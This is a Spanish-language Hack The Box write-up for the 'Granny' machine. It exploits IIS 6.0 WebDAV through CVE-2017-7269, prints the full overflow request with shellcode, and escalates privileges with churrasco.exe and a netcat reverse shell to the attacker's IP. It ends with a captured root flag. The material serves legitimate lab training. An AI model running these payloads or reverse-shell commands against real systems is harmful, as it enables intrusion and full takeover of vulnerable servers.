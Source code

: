 ```yaml
---
layout: single
title: HTB-Granny
excerpt: "WriteUp de la máquina HTB Granny -- Type: Easy"
date: 2022-04-01
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/granny/granny.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/granny/granny.png"></centre>


[Maquina](https://app.hackthebox.com/machines/14) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.15 
```

```bash
Nmap scan report for 10.10.10.15
Host is up (0.067s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Fri, 01 Apr 2022 08:03:03 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Vemos que tiene el puerto **80 (http)** abierto y la versión del servidor es **Microsoft IIS httpd 6.0** puede ser que sea vulnerable a **CVE-2017-7269**



## Explotación
Nos descargamos el exploit el cual no dará una reverse shell por la cual tendremos que tener un puerto a la escucha con netcat.

[CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

```bash
nc -lvp 443
```


Le damos permisos de ejecución al exploit y lo ejecutamos con nuesta ip y por el puerto que vamos a tener a la escucha.

```bash
python2 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.9 443
```

```txt
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Y por el netcat tendremos la ReverseShell.

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.15] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


El usuario que obtenemos es **nt authority\network service** y no de **system** y por lo tanto tendremos que elevar privilegios.

Podemos ejecutar el comando **systeminfo** en la máquina víctima para pasarlo por el [wes.py](https://github.com/bitsadmin/wesng/blob/master/wes.py) (python script para buscar exploits de windows)

```powershell
C:\Documents and Settings>systeminfo
```

```bash
python2 wes.py systeminfo.txt --exploits-only -i "Elevation of Privilege"
```

Entre todas las vluns que encontramos podemos ver la **CVE-2008-1436** que utiliza el exploit [churrasco.exe](https://github.com/Re4son/Churrasco) para elevar privilegios.

```txt
Date: 20090414
CVE: CVE-2008-1436
KB: KB952004
Title: Vulnerabilities in Windows Could Allow Elevation of Privilege
Affected product: Microsoft Windows Server 2003 x64 Edition 
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: https://www.exploit-db.com/exploits/6705
````

Nos descargamos el [churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe) y el [netcat.exe](https://github.com/int0x33/nc.exe) y los servimos con un servidor smb para poder pasarselos a la máquina windows.

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
wget https://github.com/int0x33/nc.exe/blob/master/nc.exe

impacket-smbserver share $(pwd) -smb2support
```

Los descargamos en la carpeta Temp:

```powershell
C:\WINDOWS\Temp>copy \\10.10.14.9\share\churrasco.exe
copy \\10.10.14.9\share\ch.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.9\share\nc.exe
copy \\10.10.14.9\share\nc.exe
        1 file(s) copied.

C:\WINDOWS\Temp>
```

Y nos podemos en escucha con netcat por un puerto diferente al usado.

```bash
nc -lvp 444
```

Y ya podemos ejecutar el comando para obtener una reverse shell con **churrasco.exe**

```powershell
churrasco.exe "nc.exe -e cmd.exe 10.10.14.9 444"
```

```powershell
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.15] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```

Flag **User Lakis**:
```powershell
C:\Documents and Settings\Lakis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings\Lakis\Desktop

04/12/2017  10:19 PM    <DIR>          .
04/12/2017  10:19 PM    <DIR>          ..
04/12/2017  10:20 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,320,992,768 bytes free

C:\Documents and Settings\Lakis\Desktop>

```

Flag **nt authority\system**:
```powershell
C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  05:28 PM    <DIR>          .
04/12/2017  05:28 PM    <DIR>          ..
04/12/2017  10:17 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,320,980,480 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9
C:\Documents and Settings\Administrator\Desktop>
```